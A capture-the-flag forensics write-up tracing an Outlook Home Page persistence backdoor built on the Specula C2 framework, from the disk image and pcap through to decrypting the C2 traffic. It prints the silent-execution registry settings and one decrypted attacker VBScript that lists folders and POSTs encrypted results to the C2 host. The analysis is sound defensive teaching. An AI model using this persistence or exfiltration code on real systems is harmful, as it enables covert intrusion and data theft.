# Look Out

## Summary

This challenge involves a disk image where the victim received a malicious "monthly report" that silently installed an **Outlook Home Page** persistence backdoor (MITRE T1137.004), using the open-source **Specula** C2 framework by TrustedSec. The attacker leveraged Outlook's COM interface to execute in-memory VBScript, communicated over HTTP with XOR-encrypted traffic, exfiltrated a Python script containing the flag from the victim's Desktop, then deleted the file to cover their tracks. The flag is recovered by decrypting the C2 traffic captured in the pcap — the attacker cleaned up the disk, but the network never forgets.

---

## Scenario

While checking a monthly report sent by one of my employees, everything seemed ordinary. However, when I logged back in my mailbox the next day, something strange was happening on my computer...

## Given Artifact

A `.ad1` disk image file.

## Solving Process

Inside the user's Downloads folder, I can see the trace of the aforementioned `report`, however, it has been deleted:



What's more, in the Desktop folder, I find a huge packet capture file — over 500MB is quite large for a pcap. Let's export it from FTK Imager; this is likely our main battlefield:



The pcap is huge and full of noise from things like Windows Update, so I narrow the search space to HTTP only, as anomalies often stem from this protocol:



Found it! A text file named `report`, but its content looks like PowerShell. Let's export it for further inspection:



The command is base64-encoded — a classic malware evasion technique. Let's use CyberChef to retrieve the original payload:



Before going further, let me clarify how this persistence mechanism works, since it's central to everything that follows.

### Background: Outlook Home Page Abuse (T1137.004)

Each of Outlook's folders — Inbox, Sent Items, Drafts, Deleted Items, Calendar, or any custom folder you create — can have a "home page": an HTML document that renders in the right-hand pane when you click the folder in the left sidebar, replacing the normal message-list view:



Microsoft removed the GUI for setting this years ago, but the underlying registry keys still work. If an attacker can write to `HKCU` (no admin rights needed), they can point any folder at an attacker-controlled URL. When the victim next opens that folder, Outlook fetches the URL and renders it — including executing any VBScript inside, within Outlook's own process and with the user's full privileges.

The decoded PowerShell writes the following registry values:

```
HKCU\Software\Microsoft\Office\{14,15,16}.0\Outlook\Webview\Inbox
    "url"      = "http://192.168.1.189:8386/plugin/search/"
    "security" = "yes"
```

The three Office versions (14/15/16 = Office 2010/2013/2016+) are all covered, so it works regardless of what's installed. Setting `security=yes` is the critical detail — without it, Outlook would prompt the user before rendering external content. With it, execution is completely silent.

That's why the victim sees "something strange" when they open Inbox the next day: the page at the attacker's URL runs automatically, in Outlook's process, with no warning. Now that this is clear, let's follow the HTTP traffic to see what that URL actually serves.

I'll first extract only the packets of interest using `tshark`:

```bash
tshark -r original.pcap -Y "ip.addr == 192.168.1.189 and http" -w filtered.pcapng
```

Following the TCP stream where the request for `/plugin/search/` is made, we can see its content:





Exactly as expected — the returned HTML contains VBScript. A few lines worth noting:

- `outlookapp = window.external.OutlookApplication` — pivots from the rendered page into Outlook's COM interface, giving access to the entire Outlook object model and `WScript.Shell`.
- `GetEnvironment()` — collects `%COMPUTERNAME%` and `%USERNAME%`, joins them with `|`, and base64-encodes the result.
- `requestpage()` — POSTs that string back to the C2; the User-Agent contains the literal string `Specula`, a giveaway for the [framework](https://github.com/trustedsec/specula/tree/main).
- `window_onload()` — orchestrates everything, then writes the server's reply into the registry under `Outlook\UserInfo\KEY` (the session key) and `Outlook\Webview\Inbox\URL` (the next stage's URL).
- The page has a `<meta http-equiv="refresh" content="10">` so Outlook re-fetches the page every 10 seconds, polling until the server sends a non-empty response — essentially waiting for the operator to issue the next stage.

Now let's follow the next stream, where the victim POSTs back the collected hostname and username. The base64 blob in the request body is that exfiltrated data, joined by `|`:



Decoding it with CyberChef (From Base64 → Decode text UTF-16LE, since VBScript encodes strings in UTF-16LE by default):



`COMMANDO|BKISC` — hostname `COMMANDO`, username `BKISC`. The victim will keep polling until it gets a non-empty response, and eventually the server delivers one:



Two values split by `||`: the **session key** used to encrypt all future traffic, and a **new URL** to load. So on the next refresh, Outlook will silently update the Inbox home page to point at this new URL and fetch it.

Following the next stream where the victim GETs `/css/dx7u7QYCSlbTbQ`, the actual agent VBScript is downloaded and executed in memory via `ExecuteGlobal()` — it never touches the disk:



Continuing to the next stream, the full agent payload is delivered when the victim GETs `/css/dx7u7QYCSlbTbQ/FxBdmVg`:



Looking at the `downloadcode(uri)` function, we can reconstruct what every server response looks like:

```text
[1 char flag][4 char sync][payload...]
      ^             ^            ^
    0/1/2     polling secs  VBScript to run
```

For the flag character `f`, there are 3 cases:

- `f=0` — execute the payload as-is (plaintext VBScript).
- `f=1` — decrypt the payload first, then execute it.
- `f=2` — no command; just update the polling interval and sleep.

> **A note on VBScript indexing** — in case the string manipulation looks confusing:
>
> In VBScript, standard arrays are 0-indexed (first element at index 0), but string functions like `Mid` are **1-indexed** for their starting positions.
>
> - `Left(string, length)` — returns characters from the left. `Left("VBScript", 2)` → `"VB"`.
> - `Right(string, length)` — returns characters from the right. `Right("VBScript", 6)` → `"Script"`.
> - `Mid(string, start, [length])` — returns characters from a given position. Position 1 is the first character. `Mid("VBScript", 3, 4)` → `"Scri"`.
>
> So `Left(response, 1)` grabs the flag byte, `Mid(response, 2, 4)` grabs the 4-character sync value, and `Mid(response, 6)` is everything from position 6 onward — the actual payload.
>
> For arrays, `Dim arr(2)` declares an array with **upper bound** 2, meaning 3 elements: `arr(0)`, `arr(1)`, `arr(2)`. The `Split` function returns a zero-based array, iterated as `For i = 0 To UBound(arr)`.

The next function reveals the encryption scheme:



It's just XOR — the VBScript syntax makes it look scarier than it is. In encrypt mode (`Mode=True`), each plaintext byte is XORed with the cycling key and the result is written as two hex characters. In decrypt mode (`Mode=False`), each pair of hex characters is converted back to a byte and XORed with the same cycling key. Since XOR is its own inverse, encrypt and decrypt are the same operation — only the direction of hex conversion differs.

The next two functions are a performance-optimised variant of the same XOR (`crypthelper`, which uses a pre-sized array and `Join` instead of repeated string concatenation to avoid O(n²) performance on large outputs), and the main beaconing loop that keeps requesting commands from the server:





The variable `ay` — read from the registry where stage 1 stored it — is the XOR key. We already have it from the plaintext response in stream 1: `o4WlfbKbx1xik1TgTQGeOQ`. Time to decrypt the traffic.



Strip the first 5 characters (the envelope: 1 flag + 4 sync digits), copy the rest, and open CyberChef. The recipe is **From Hex** → **XOR** with key `o4WlfbKbx1xik1TgTQGeOQ`, key format set to **UTF8**. This gives us the first command the attacker ran:

```vb
Function dir_lister(folderpath, depth, recurselevels, filetype, filename, nodirectories, sizeformat, nofiles)
	On error resume next
    Set fs = window.external.OutlookApplication.CreateObject("Scripting.FileSystemObject")
	contents = ""
    
	if sizeformat = "kb" Then
		sizeround = 1024
	elseif sizeformat = "mb" Then
		sizeround = 1048576
	elseif sizeformat = "gb" Then
		sizeround = 1073741824
	elseif sizeformat = "tb" Then
		sizeround = 1099511627776
	end if

    if fs.FolderExists(folderpath) Then
		Set objFolder = fs.GetFolder(folderpath)
		if not nofiles Then
			if depth <= recurselevels Then
				Set colFiles = objFolder.Files
				For Each objFile in colFiles
					friendlysize = Round(objfile.Size / sizeround, 1)
					if filetype = "*" Then
						if filename = "*" Then
							contents = contents & "F: " & objFile.Path & " - Size: " & friendlysize & sizeformat & " - LastModified: " & objFile.DateLastModified & vbCrLf
						else
							If LCase(fs.GetBaseName(objFile.Name)) = LCase(filename) Then
								contents = contents & "F: " & objFile.Path & " - Size: " & friendlysize & sizeformat & " - LastModified: " & objFile.DateLastModified & vbCrLf
							end if
						end if
					else
						If LCase(fs.GetExtensionName(objFile.Name)) = LCase(filetype) Then
							if filename = "*" Then
								contents = contents & "F: " & objFile.Path & " - Size: " & friendlysize & sizeformat & " - LastModified: " & objFile.DateLastModified & vbCrLf
							else
								If LCase(fs.GetBaseName(objFile.Name)) = LCase(filename) Then
									contents = contents & "F: " & objFile.Path & " - Size: " & friendlysize & sizeformat & " - LastModified: " & objFile.DateLastModified & vbCrLf
								end if
							end if
						End If
					End If
					If Err.Number <> 0 Then
						if nodirectories Then
						Else
							contents = contents & "ERROR - Read Files denied on path - " & folderpath  & vbCrLf
							return
							Err.Clear
						end if
					End If
				Next
			end if
		end if
		For Each Subfolder in objFolder.SubFolders
			if depth > recurselevels Then
				exit For
			else
				if nodirectories Then
				Else
					contents = contents & "D: " & Subfolder.Path & " - LastModified: " & Subfolder.DateLastModified & vbCrLf
				End if
				contents = contents & dir_lister(Subfolder.Path, depth+1, recurselevels, filetype, filename, nodirectories, sizeformat, nofiles)
			End if
        Next
        if depth = 0 Then
            dir_lister = "Parent Folder: " & folderpath & vbCrLf & contents
        else
            dir_lister = contents
        End if
    else
        dir_lister = "Folder " & folderpath & " does not exist"
    End If
End Function
Function list_dir()
	On error resume next
    list_dir = dir_lister("C:/Users", 0, 0, "*", "*", False, "mb", False)
End Function
Ohm = ""
Ohm = crypthelper(list_dir(), ay, True)
rul = requestpage("http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ", chr(34) & Ohm & chr(34))
```

This is a standard directory listing command — the attacker's first recon step. Notice it uses `FileSystemObject` through Outlook's COM interface rather than calling `WScript.Shell` directly; the latter is more likely to trigger security alerts. The last three lines are also the encryption side we were looking for: `crypthelper(..., ay, True)` encrypts the result (mode `True` = encrypt), wraps it in quotes with `chr(34)`, and POSTs it back. Every command the server sends follows this exact same pattern — the encryption-and-exfiltrate step is bundled inside the command itself, not baked into the standing agent.

Let's look at the corresponding POST from the victim — that's the listing result being sent back:



Decrypting it with the same CyberChef recipe:



In the next command, the attacker drills down into the `BKISC` user's directory specifically:



And the result:



Then they go one level deeper and explore the Desktop:



An interesting Python script shows up in the response:



The attacker finds it just as interesting as we do:





The full plaintext content of `flag.py` is transmitted over the network:



Running it locally:



Got the flag — but let's also look at the final command before wrapping up:





Deleted from disk, but its soul is still haunting the pcap!

`Flag: BKISC{l0oK_Ou7_f0R_0u71o0k_C2!!!}`
